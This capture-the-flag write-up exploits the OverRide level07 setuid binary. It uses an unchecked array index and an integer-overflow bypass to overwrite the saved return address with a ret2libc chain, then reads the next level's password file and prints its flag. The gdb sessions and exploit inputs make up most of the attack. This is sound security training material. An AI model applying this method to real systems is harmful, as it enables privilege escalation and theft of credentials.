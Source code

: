 Level07 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level07/level07
```

Level07 rights:
```Shell
-rwsr-s---+ 1 level08 users   11744 Sep 10  2016 level07
```

Testing the binary:
```Shell
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store 
 Number: 111
 Index: 1
 Completed store command successfully
Input command: read
 Index: 1
 Number at data[1] is 111
 Completed read command successfully
 Input command: store
 Number: -1
 Index: 2
 Completed store command successfully
Input command: read
 Index: 2
 Number at data[2] is 4294967295
```
The program allows us to store numbers in an array and display them.

Decompiling with Hex-Rays on https://dogbolt.org/ shows us that:
- there is an array of unsigned int of 100 elements
- the index provided by the user is used without checking if it exceeds the size of the array
- you cannot store numbers at any index that is a multiple of 3. 

We can't do a format string attack nor a buffer overflow, so our only way to exploit the binary is to use the `store` command to write on the stack. The vulnerability lies in the fact that you can store values outside the array. Our goal is to do a `ret2libc` attack by finding `EIP` and overwrite it with `system()`.

We will first retrieve the addresses of `system()`, `exit()` and `/bin/sh`:
```Shell
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system, +9999999, "/bin/sh"
0xf7f897ec
```

Since the program only deals with decimal numbers, we must convert the addresses from hexa to decimal:
```
system: 0xf7e6aed0 -> 4159090384
exit: 0xf7e5eb70 -> 4159040368
/bin/sh: 0xf7f897ec -> 4160264172
```

Now, we need to know at which index we should store the address of `system()`. Using `gdb-peda`, we found the offset between `EIP` and the beginning of our array by placing a breakpoint right after the call to `read()` and inspect the values:
```Shell
Guessed arguments:
arg[0]: 0xffffcdf4 --> 0x0 
[...]
gdb-peda$ i f
[...]
 Saved registers:
[...]
  eip at 0xffffcfbc
```

`0xffffcdf4` is the address of the start of the array. `0xffffcfbc` is the address of `EIP`. Subtracting the address of the array from `EIP` give us an offset of 456 bytes (0xffffcfbc - 0xffffcdf4).
This is an array of `int` so each element has a size of 4 bytes. If we do 456 / 4, we get `114`, which corresponds to the index we must access. 
First, let's run a check to see if we have the correct value:
```Shell
Input command: store
 Number: 258
 Index: 114
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
 ```
We can't use the 114th index because it's a multiple of 3. But perhaps overflowing it could allow us to reach 114 anyway. The program multiplies the index by 4, so if we use `MAX_UINT_32 / 4` and add 114, we get `1073741938`, which is the same as 114.

Now, for testing purposes, let's try to change `EIP` by '0xaaaaaaaa' (2863311530 in decimal):
```Shell
Input command: store
 Number: 2863311530
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 2863311530
 Completed read command successfully
Input command: quit

Program received signal SIGSEGV, Segmentation fault.
0xaaaaaaaa in ?? ()
```
It seems to work!
Therefore storing `system()`, `exit()` and `/bin/sh` addresses at indices 114, 115, 116 should open a terminal.

Here is the result:
```Shell
Input command: store
 Number: 4159090384                           // system()
 Index: 1073741938                            // index 114
 Completed store command successfully         
Input command: store
 Number: 4159040368                           // exit()
 Index: 115
 Completed store command successfully           
Input command: store
 Number: 4160264172                           // /bin/sh
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```